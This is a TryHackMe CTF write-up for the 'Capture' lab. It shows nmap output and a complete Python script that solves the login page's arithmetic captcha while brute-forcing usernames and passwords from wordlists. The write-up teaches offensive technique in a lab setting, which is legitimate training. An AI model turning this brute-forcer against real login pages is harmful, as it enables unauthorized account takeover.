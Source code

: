 ```yaml
---
title: Capture TryHackMe Writeup
tags: [writeup, tryhackme, , linux, python]
style: border
color: success
description: ""
---
```


![logo](../assets/img/capture-tryhackme-writeup/machine.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 10.10.183.73 -Pn -n -oN nmap-10.10.183.73.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 22:10 CEST
Nmap scan report for 10.10.183.73
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
```

## Enumeration
We access the website, see the Intranet authentication form, try default credentials, but without success.
![](../assets/img/capture-tryhackme-writeup/1.png)

We download the files, there is a list of users and a list of passwords, this gives us a clue that we will have to use brute force. (*These files are provided in the challenge description.*)

```
> ls
passwords.txt  usernames.txt
                                                                                            
> wc -l *
 1567 passwords.txt
  877 usernames.txt
 2444 total

```
It seems easy, but things get complicated because the application has an arbitrary captcha protection, so we will have to generate a script in Python (or the language you control) to perform brute force and evade the protection.
![](../assets/img/capture-tryhackme-writeup/4.png)

## Exploitation
In my case, I assemble a simple Python script with a function to calculate the captcha and make the request, the script is divided into two parts:
1. First it detects the existing user.
2. If the user exists, it will start to get the password and as soon as it detects it, it will stop.
#### Script coding
```python
#!/usr/bin/env python3

import requests, re

url = "http://10.10.183.73/login"
burp = {'http': 'http://127.0.0.1:8080'}

def extractCaptcha(html):
    captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
    match = re.search(captcha_regex, html)
    if match:
        num1 = int(match.group(1))
        operator = match.group(2)
        num2 = int(match.group(3))
        if operator == '+':
            result = num1 + num2
        elif operator == '-':
            result = num1 - num2
        elif operator == '*':
            result = num1 * num2
        return result
    else:
        return None

if __name__ == '__main__':

	s = requests.session()

	print("[+] Bruteforce starting...")

	result = "does not exist"
	fUsers = open('/home/kali/Documents/Capture/files/usernames.txt', errors='ignore')
	for username in fUsers.readlines():

		postData = {
			'username': username.strip(),
			'password': "test",
			'captcha': result
		}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)

		if "does not exist" not in r.text:
			print("\n[+] Found User: " + username.strip())
			break

	
	username = username.strip()

	print("\n[+] Obtain password....")
	fPasswords = open('/home/kali/Documents/Capture/files/passwords.txt', errors='ignore')
	for password in fPasswords.readlines():
		postData = {
		'username': username,
		'password': password.strip(),
		'captcha': result
	}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)
		
		if "Error:" not in r.text:
			print("\n[+] Found credentials: " + username.strip() + ":" + password.strip())
			break
```

After a few minutes we will get the credentials:

```
> python3 bruteforce.py
[+] Bruteforce starting...

[+] Found User: xxxxxxxxx

[+] Obtain password....

[+] Found credentials: xxxxxx:********
```
Finally we authenticate with the credentials and we will obtain the flag.

![](../assets/img/capture-tryhackme-writeup/3.png)